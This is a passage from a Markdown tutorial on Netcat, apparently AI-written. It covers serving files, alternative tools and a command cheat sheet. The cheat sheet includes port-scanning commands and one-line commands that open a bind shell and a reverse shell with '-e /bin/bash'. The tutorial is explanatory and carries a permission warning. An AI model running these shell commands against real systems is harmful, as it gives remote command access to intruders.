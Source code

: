 > ⚠ **Security Warning:** Running these commands can be dangerous. Ensure you understand the risks and have permission before using them.  

---

## **9. Using Netcat as a Simple Web Server**
You can use Netcat to **serve static content**:  
```sh
while true; do nc -l 8080 < index.html; done
```
- This serves `index.html` when accessed via a browser.  

---

## **10. Netcat Alternatives**
If `nc` is unavailable or limited, alternatives include:  
- **`ncat`** (from Nmap) – Advanced version of Netcat  
- **`socat`** – More powerful with encryption support  
- **`telnet`** – Basic alternative for testing network connectivity  

---

## **11. Netcat Cheat Sheet**
| Command | Purpose |
|---------|---------|
| `nc -zv <IP> <port>` | Check if a port is open |
| `nc -l <port>` | Start a listener/server |
| `nc <IP> <port>` | Connect to a listening Netcat server |
| `echo "msg" | nc <IP> <port>` | Send a message to a port |
| `nc -l <port> > file.txt` | Receive a file |
| `cat file.txt | nc <IP> <port>` | Send a file |
| `nc -zv <IP> 20-100` | Scan ports 20-100 |
| `nc -l <port> -e /bin/bash` | Start a bind shell |
| `nc <IP> <port> -e /bin/bash` | Create a reverse shell |

---

## **12. Conclusion**
Netcat is an incredibly versatile tool for **network troubleshooting, file transfers, simple servers, and security testing**. Whether you're an administrator checking network connectivity or a developer debugging applications, Netcat is a valuable addition to your toolkit.  

Would you like help with a specific Netcat use case? 🚀
